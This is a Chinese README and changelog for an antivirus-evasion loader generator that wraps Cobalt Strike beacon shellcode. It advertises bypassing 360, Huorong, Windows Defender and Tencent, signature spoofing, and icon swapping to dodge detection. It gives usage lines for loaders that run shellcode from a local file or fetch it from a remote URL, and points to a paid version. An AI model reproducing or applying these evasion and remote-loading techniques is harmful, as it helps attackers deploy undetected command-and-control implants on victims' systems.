

# HeavenlyBypassAV免杀工具

免责声明：本项目仅用于渗透测试练习中的教育和研究目的。禁止将其用于任何非法活动（包括黑灰、未经授权的渗透攻击）！互联网不是法外之地！如果您选择使用此工具，则必须遵守上述要求。

Heavenly.exe是生成生成免杀加载器主进程，报毒正常，不含恶意代码。为保证免杀性，不公开源码，后续会更新

# 更新日志

## ⚠️6.0 
不打算免费发布此更新，会将其放在付费圈子中。圈子保持更新。
后续圈子可能会公开源码

## 5.0
2025.1.18更新，解决杀软标记特征问题，QVM查杀可以替换favicon.ico绕过。

## 4.0
2024.11.25更新，解决火绒标记问题，新增添加签名功能，签名进程为CryptoCMD.exe，来源锦鲤安全。

下图为分离加载和网络加载的示例：

## 3.0（重大更新）
2024.11.20更新，去除之前版本的VS2019配置，不需要配置。自带GCC编译，下载项目可直接生成免杀马，新增模块化选择生成操作。

本地分离马子使用：马子.exe code.bin  //code.bin可以改成任意格式

网络分离马子使用：马子.exe url链接 

示例：马子.exe http://www.baidu.com/1.txt

## 2.0
2024.06.20更新，解决生成马子免杀问题。

## 1.0

### 1.0 使用方式

只要把CS生成的64位无阶段beacon.bin文件放在和Heavenly.exe同一目录即可，然后可以双击运行exe，等待一会自动化生成。

**Tools目录**

tools目录为运行需要的依赖工具，其中favicon.ico可以替换，但替换后的文件名必须一样为favicon.ico。

## 免杀效果

**支持bypass 360、火绒、Windows Defender、腾讯电脑管家等，一键免杀上线CS**

